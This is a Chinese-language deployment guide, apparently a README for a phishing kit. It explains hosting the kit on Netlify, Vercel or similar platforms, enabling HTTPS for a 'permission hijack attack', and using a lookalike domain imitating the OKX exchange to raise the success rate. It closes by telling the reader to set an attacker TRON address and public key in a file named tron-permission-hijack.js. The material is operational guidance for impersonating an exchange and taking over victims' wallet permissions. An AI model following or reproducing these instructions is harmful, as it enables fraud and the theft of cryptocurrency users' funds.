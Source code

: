 ### 2. Netlify部署

```bash
# 确保netlify.toml存在
cp ../netlify.toml ./

# 直接上传整个目录到Netlify
# 或者连接Git仓库自动部署
```

### 3. 其他云平台部署

- **Vercel**: 直接上传目录或连接Git
- **GitHub Pages**: 推送到GitHub仓库的gh-pages分支
- **Firebase Hosting**: 使用Firebase CLI部署
- **自建服务器**: 上传到Web服务器目录

## 🔧 配置要点

### 1. HTTPS配置
权限劫持攻击需要HTTPS环境，确保：
```
- SSL证书正确配置
- 强制HTTPS重定向
- 安全头部设置
```

### 2. 域名伪装
为提高成功率，建议使用：
```
- 与OKX相似的域名
- 有效的SSL证书
- 正确的DNS配置
```

### 3. CDN加速
```
- 使用CDN提高访问速度
- 配置缓存策略
- 启用压缩
```

## 🎯 攻击配置

### 修改攻击者地址
编辑 `tron-permission-hijack.js`:
```javascript
const ATTACKER_CONFIG = {
    // 修改为你的攻击者地址
    address: 'THjNZbFNv9w3M1wyisiaFX97rHrP4gF44x',
    // 修改为对应的公钥
    publicKey: '03a3b7c5d6e8f9a1b2c3d4e5f6789abcdef0123456789abcdef0123456789abcdef'
};
```
